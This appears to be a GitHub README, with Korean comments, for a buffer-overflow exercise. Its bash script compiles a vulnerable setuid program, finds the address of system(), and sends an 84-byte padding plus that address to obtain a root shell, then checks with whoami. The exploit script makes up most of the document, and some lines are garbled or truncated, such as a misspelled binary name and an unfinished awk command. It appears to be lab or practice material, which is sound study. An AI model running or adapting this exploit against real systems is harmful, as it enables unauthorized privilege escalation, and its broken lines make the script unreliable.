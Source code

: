 # BOF_Script
this refo contains unsafe code
# Explanation
-사전작업-
1. 작업을 수행할 계정으로 접속합니다.
2. /home/계정 폴더로 이동합니다.
3. 깃허브에 있는 파일들을 옮깁니다.
4. 스크립트를 실행합니다.

-스크립트-
#!/bin/bash
gcc -o vuln vuln.c //vuln.c 컴파일

chmod +s vunl //권한 부여

gcc -o ./getaddr getaddr.c -lc -ldl //getaddr.c 컴파일

/bin/bash2 //bash2 실행

export PATH=$PATH:. //현재 위치 path에 추가

sysaddr=$(./getaddr) //주소 구한 뒤 저장

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" 2> arg //주소 변환하고 vuln에 인자로 넣어서 실행한 뒤 출력값 저장

xxd arg | awk '{for(i=2; i<=NF; i++) ~ //arg에서 원하는 부분 추출해 /bin/bash를 가리키는 심볼릭 링크 생성에 사용

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" //system함주 주소 대입해 vuln 실행

whoami //결과 확인
